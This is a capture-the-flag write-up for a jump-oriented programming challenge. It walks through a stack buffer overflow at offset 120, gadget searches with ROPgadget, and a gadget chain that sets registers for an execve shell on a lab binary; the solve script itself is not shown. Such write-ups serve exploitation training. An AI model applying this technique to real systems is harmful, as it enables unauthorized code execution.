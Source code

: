 # JOP:Solution

The binary is compiled with NX and Full RELRO
```
checksec chal.bin   
[*] '/root/workspace/vuln/jop/chal/chal.bin'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

and is dynamically linked to GLIBC.
```
rabin2 -I chal.bin 
arch     x86
baddr    0x400000
binsz    12587
bintype  elf
bits     64
canary   false
class    ELF64
compiler GCC: (Debian 12.2.0-9) 12.2.0
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
```

We can exploit the read() function (shown in high level language).
```
00401228      puts(str: "--------------------------------…")
00401237      puts(str: "Pack it up, pack it in, let me b…")
00401246      puts(str: "I came to win, battle me, that's…")
00401255      puts(str: "I won't ever slack up, punk, ya …")
00401264      puts(str: "Try and play the role and yo, th…")
00401273      puts(str: "                             - \x1b…")
00401282      puts(str: "--------------------------------…")
0040129d      void var_c
0040129d      printf(format: "<<< Stack: %p\n", &var_c)
004012ac      puts(str: "--------------------------------…")
004012c0      printf(format: "So get out your seat and jump ar…")
004012dd      void var_78
004012dd      return read(fd: 0, buf: &var_78, nbytes: 136)
```

In the function above there space set aside for the user input using var_c and can be seen in the disassembly here:
```
0040121a  4883ec70           sub     rsp, 112
```

112 + 8 = 120 bytes to overwrite and to check we can run the program and test it. Using cyclic to spit out 120 characters the program ends normally, adding 1 causes a seg fault.
Therefore the overflow is at 120.

The goal is to get a shell to cat the flag so we need to set up a syscall to execve, which means we need to set RAX, RDI, RSI, and RDX. Then we need to create our fake stack.

First I looked to mov something into RAX
```
ROPgadget --binary chal.bin | grep mov | grep rax
0x0000000000401203 : mov byte ptr [rax], 0 ; add byte ptr [rax], al ; jmp rdx
0x0000000000401052 : mov ch, byte ptr [rdi] ; add byte ptr [rax], al ; push 2 ; jmp 0x401020
0x00000000004011cb : mov ebp, esp ; mov rax, 0x3b ; jmp rdx
0x00000000004010c7 : mov edi, 0x404010 ; jmp rax
0x00000000004011cd : mov rax, 0x3b ; jmp rdx
```

The last gadget seemed promising so I checked what was being moved into RAX and 0x3b is 59, which is the syscall number for execve.

Next I looked for mov and RDI.
```
ROPgadget --binary chal.bin | grep mov | grep rdi
0x0000000000401052 : mov ch, byte ptr [rdi] ; add byte ptr [rax], al ; push 2 ; jmp 0x401020
0x00000000004011db : mov ebp, esp ; mov rdi, rbp ; jmp rdx
0x00000000004011da : mov rbp, rsp ; mov rdi, rbp ; jmp rdx
0x00000000004011dd : mov rdi, rbp ; jmp rdx
```

The last gadget would move RBP into RDI, so I just needed to pop RBP.
```
0x000000000040113d : pop rbp ; ret
```

RSI was next.
```
ROPgadget --binary chal.bin | grep rsi
0x00000000004011ff : mov ebp, esp ; mov rsi, 0 ; jmp rdx
0x0000000000401201 : mov rsi, 0 ; jmp rdx
```

There were only 2 available gadgets and the second one made sense. 

Last is RDX. Every other gadget has a jmp back to RDX. We want to make sure that RDX is 0.
```
ROPgadget --binary chal.bin | grep rdx | grep xor
0x00000000004011f3 : mov ebp, esp ; xor rdx, rdx ; jmp rcx
0x00000000004011f2 : mov rbp, rsp ; xor rdx, rdx ; jmp rcx
0x00000000004011f1 : push rbp ; mov rbp, rsp ; xor rdx, rdx ; jmp rcx
0x00000000004011f5 : xor rdx, rdx ; jmp rcx
```

Using the last gadget would mean put RDX in RCX.
```
ROPgadget --binary chal.bin | grep mov | grep rcx
0x00000000004011e7 : mov ebp, esp ; mov rcx, rdx ; jmp rdx
0x00000000004011f3 : mov ebp, esp ; xor rdx, rdx ; jmp rcx
0x00000000004011e6 : mov rbp, rsp ; mov rcx, rdx ; jmp rdx
0x00000000004011f2 : mov rbp, rsp ; xor rdx, rdx ; jmp rcx
0x00000000004011e9 : mov rcx, rdx ; jmp rdx
```

Then it jumps back to RDX like every other gadget has so far. Last we needed to be able to add 8 to RSP to advance the program counter.
There was only one gadget that moved anything into RDX.
```
0x00000000004011b5 : pop rsp ; mov rdx, 0x40119d ; jmp rdx
```

Looking at 0x40119d we see:
```
0040119d  4883c408           add     rsp, 8
004011a1  4d31c9             xor     r9, r9
004011a4  4983c108           add     r9, 0x8
004011a8  4901e1             add     r9 {arg1}, rsp
004011ab  41ff21             jmp     qword [r9 {arg1}]
```

Creating the fake stack is next, which we can do using the stack leak and a little bit of GDB analysis. 

Then put all the pieces together in a chain (in the included solve script with it's own comments).

Send the chain at the end of the script and get the flag!
```
flag{G3t_uS3d_2_1_Styl3_and_yo_and_I_m1ghT_sw1tch}
```

Resources: 
* Class slides
* Demo solve script
* Chandler
* Robbie
* Louie
* https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/
